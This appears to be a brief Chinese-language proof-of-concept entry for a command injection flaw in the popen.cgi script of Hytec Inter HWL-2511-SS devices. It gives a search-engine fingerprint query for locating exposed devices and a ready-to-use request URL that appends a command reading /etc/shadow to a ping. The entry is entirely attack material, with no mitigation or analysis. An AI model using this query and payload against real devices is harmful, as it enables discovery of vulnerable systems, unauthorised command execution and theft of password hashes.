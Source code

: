 ## Hytec Inter HWL-2511-SS popen.cgi命令注入漏洞
搜索关键字：
title="index" && header="lighttpd/1.4.30"

### poc
```

/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/shadow&v=0.1303033443137921
```
